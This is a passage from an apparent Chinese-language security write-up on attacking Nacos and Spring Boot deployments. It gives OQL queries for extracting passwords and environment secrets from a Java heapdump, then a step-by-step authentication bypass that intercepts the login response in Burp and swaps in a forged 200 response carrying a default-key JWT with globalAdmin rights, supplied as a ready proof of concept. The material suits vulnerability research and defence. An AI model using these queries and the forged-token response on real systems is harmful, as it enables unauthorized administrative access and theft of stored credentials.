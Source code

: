 ![](F:\file\知识\1-广东技术分享\2021年11月\图片1.png)

此处可以执行OQL语句，有点类似SQL语句，执行以下OQL语句获得密码。

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
```

![](F:\file\知识\1-广东技术分享\2021年11月\图片2.png)

利用Spring Boot也同样可以获取其他密码，如下图是另一个nacos的env接口，通过该接口可以看到此nacos监控了“SQL监控服务”

![](F:\file\知识\1-广东技术分享\2021年11月\图片3.png)

利用heapdump获取该脱敏数据，执行语句：`select * from org.springframework.web.context.support.StandardServletEnvironment`

![](F:\file\知识\1-广东技术分享\2021年11月\图片4.png)

## 后台未授权登录                                                

根据Nacos官方在github发布的[issue](https://github.com/alibaba/nacos/issues/7182)所披露的。漏洞主要由于NACOS使用了默认的JWT key导致的未授权访问漏洞。通过该漏洞，攻击者可以绕过用户名和密码验证直接登录到nacos用户后台。

访问http://192.168.20.1:8848/nacos/index.html。输入任意账号和密码，用bp抓取登录的数据包，拦截返回包。

![图片](https://user-images.githubusercontent.com/55682875/140475444-6270417c-e0ea-48ce-9d7a-981b3d87063e.png)

点击forward，返回包为

```
HTTP/1.1 403 
Content-Type: application/json;charset=UTF-8
Content-Length: 13
Date: Wed, 09 Feb 2022 11:08:26 GMT
Connection: close

unknown user!
```

修改response。forward后，浏览器已经成功登录nacos用户，poc：

```
HTTP/1.1 200
Server: nginx/1.19.6
Date: Sun, 11 Apr 2021 01:48:17 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: http://47.93.46.78:9090
Access-Control-Allow-Credentials: true
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA
Content-Length: 162

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA","tokenTtl":18000,"globalAdmin":true}
```



